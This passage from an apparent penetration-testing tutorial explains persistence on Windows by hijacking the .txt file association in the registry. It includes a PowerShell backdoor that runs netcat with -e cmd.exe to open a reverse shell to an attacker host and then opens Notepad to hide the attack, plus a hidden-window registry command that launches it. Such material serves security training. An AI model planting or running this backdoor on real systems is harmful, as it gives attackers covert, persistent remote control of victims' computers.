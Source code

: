We can then search for a subkey for the corresponding ProgID (also under HKLM\Software\Classes), in this case, txtfile, where we will find a reference to the program in charge of handling .txt files. Most ProgID entries will have a subkey under shell\open\command where the default command to be run for files with that extension is specified.

<figure><img src="../../.gitbook/assets/image (1) (2) (1) (3).png" alt=""><figcaption></figcaption></figure>

In this case, when you try to open a .txt file, the system will execute %SystemRoot%\system32\NOTEPAD.EXE %1, where %1 represents the name of the opened file. If we want to hijack this extension, we could replace the command with a script that executes a backdoor and then opens the file as usual. First, let's create a ps1 script with the following content and save it to C:\Windows\backdoor2.ps1.

**backdoor2.ps1**

```
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe $KALI 4448"
C:\Windows\system32\NOTEPAD.EXE $args[0]
```

Notice how in Powershell, we have to pass $args\[0] to notepad, as it will contain the name of the file to be opened, as given through %1.

Now let's change the registry key to run our backdoor script in a hidden window.

**Default**

```
powershell.exe -windowstyle hidden C:\windows\backdoor2.ps1 %1
```
